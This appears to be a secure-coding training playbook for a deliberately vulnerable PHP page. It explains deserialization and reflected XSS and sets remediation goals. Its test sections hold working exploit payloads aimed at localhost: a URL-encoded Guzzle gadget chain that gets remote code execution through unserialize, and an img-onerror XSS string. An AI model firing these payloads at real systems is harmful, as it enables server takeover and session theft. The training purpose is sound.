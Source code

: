 # playbook-05.md & intake.php

Welcome to this fifth playbook, here you'll learn about basic reflected Cross Site Scripting (XSS) issues and deserialization.


## Unserialize

Goal: Get rid of the dangerous unserialize function by using a safer alternative, or harden the unserialize call to prevent RCE.

Deserialization is a recurring issue for various languages and frameworks. As complex data needs to be parsed and used to reconstruct an object, it has been known to introduce critical security issues (remote code execution, file write, ssrf, ...) on languages such as php, java, ruby, and formats like json, xml, yaml, etc.


```bash
# Test feature
curl -sSkgi 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A33%3A%22YYYY%2FMM%2FDD%20-%20Software%20X%20rebooted%21%22%3B%7D'
# Should output "Received: YYYY/MM/DD - Software X rebooted!"
# Test exploit
curl -sSkgi 'http://127.0.0.1/intake.php?data=a%3A2%3A%7Bi%3A7%3BO%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A2%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CPsr7%5CFnStream%00methods%22%3Ba%3A1%3A%7Bs%3A5%3A%22close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A23%3A%22GuzzleHttp%5CHandlerStack%22%3A3%3A%7Bs%3A32%3A%22%00GuzzleHttp%5CHandlerStack%00handler%22%3Bs%3A2%3A%22id%22%3Bs%3A30%3A%22%00GuzzleHttp%5CHandlerStack%00stack%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A31%3A%22%00GuzzleHttp%5CHandlerStack%00cached%22%3Bb%3A0%3B%7Di%3A1%3Bs%3A7%3A%22resolve%22%3B%7D%7Ds%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A5%3Bi%3A1%3Bs%3A7%3A%22resolve%22%3B%7D%7Di%3A7%3Bi%3A7%3B%7D'
# Should output: "uid=0(root) gid=0(root) groups=0(root)"
```


## Reflected XSS

Goal: Fix the XSS in a way that prevents dangerous characters to be reflected in the webpage.

An XSS allows an attacker to execute arbitrary javascript in the user's behalv. This often allows a session or account compromise, and always permits to take some actions as the victim, like.. Withdraw money, or buy an item and ship it to the attacker's dead-drop!

The main cause of such vulnerability is the lack of input sanitization both at ingest-time, and at display-time.

```bash
# Test feature
curl -sSkgi 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A33%3A%22YYYY%2FMM%2FDD%20-%20Software%20X%20rebooted%21%22%3B%7D'
# Should output "Received: YYYY/MM/DD - Software X rebooted!"
# Test exploit
google-chrome 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A42%3A%22%3Cimg%20src%3Da%20onerror%3Dalert%28document.domain%29%3E%22%3B%7D'
curl -sSkgi 'http://127.0.0.1/intake.php?data=O%3A7%3A%22LogLine%22%3A1%3A%7Bs%3A7%3A%22content%22%3Bs%3A42%3A%22%3Cimg%20src%3Da%20onerror%3Dalert%28document.domain%29%3E%22%3B%7D'
# Should open an alert box
```
